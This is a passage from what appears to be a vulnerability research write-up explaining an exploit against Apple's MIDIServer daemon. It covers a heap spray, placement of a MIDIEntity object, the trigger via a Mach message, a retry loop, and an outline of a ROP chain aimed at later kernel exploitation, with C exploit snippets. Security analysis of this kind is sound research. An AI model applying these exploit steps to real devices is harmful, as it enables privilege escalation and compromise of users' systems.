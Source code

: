 ```
```

At this point we now have 150 CFData allocations and 150 free'd holes of size 0x90, all containing the `SPRAY_ADDRESS` pointer. The next step is to fill one of these holes with a `MIDIEntity` object: 

```
  uint32_t mentity_id = 0;
  MIDIDeviceAddEntity(mdevice_id, CFSTR(""), false, 0, 0, &mentity_id);
  printf("mentity_id = 0x%x\n", mentity_id);
```

If all has gone to plan, we should now have a chunk of memory on the heap where the first 0x78 bytes are filled with the valid `MIDIEntity` object, and the remaining 0x18 bytes are filled with `SPRAY_ADDRESS` pointers.

In order to trigger the bug we can call to the `com.apple.midiserver.io` Mach server, with the ID of our target MIDIEntity object (`mentity_id`):

```
  // Sends msgh_id 0 with cmd 2 and datalen 4 (ClientProcess::EmptiedReadBuffer)
  Init_triggerExp_msg(mentity_id);
  Send_triggerExp_msg();
```

This will kick off the ROP chain on the Mach server thread in the MIDIServer process.

A simple failure check is then used, based on whether the ID of a new object is continuous to the object ID's seen before triggering the bug:

```
  // OSStatus MIDIExternalDeviceCreate(CFStringRef name, CFStringRef manufacturer, CFStringRef model, MIDIDeviceRef *outDevice);
  uint32_t verifysucc_mdevice_id = 0;
  MIDIExternalDeviceCreate(CFSTR(""), CFSTR(""), CFSTR(""), &verifysucc_mdevice_id);
  printf("verify_mdevice_id: 0x%x\n", verifysucc_mdevice_id);
  
  if (verifysucc_mdevice_id == mdevice_id + 2) 
  {
      break;
  }
  
  // We failed, reattempting...
  printf("Try again\n");
  MIDIRestart();
```

If the object ID's are not continuous, it means exploitation failed (ie. the daemon crashed), so the daemon is restarted via the `MIDIRestart` call and exploitation can be re-attempted.

I won't cover in detail how the ROP chain works, however the basic idea is to call `objc_release` on a buffer within the `SPRAY_ADDRESS` memory mapping, with a fake Objective-C object crafted at this address, on which the `release` method will be executed. A chain-calling primitive is then set up, with the target goal of opening 3 userclients, and hanging in a `mach_msg_receive` call to later overwrite some memory via `vm_read_overwrite` when a message is received -- this is utilized later in kernel exploitation.
It is to note that for this ROP-based exploitation methodology a PAC bypass would be required on A12 and newer processors (or ideally, a different exploitation methodology).
